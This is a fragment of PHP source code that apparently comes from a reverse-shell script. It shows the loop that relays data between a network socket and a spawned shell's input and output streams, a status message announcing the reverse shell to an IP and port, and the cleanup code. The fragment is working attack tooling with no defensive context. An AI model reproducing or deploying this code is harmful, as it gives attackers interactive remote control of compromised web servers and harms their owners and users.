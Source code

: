 ```php
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
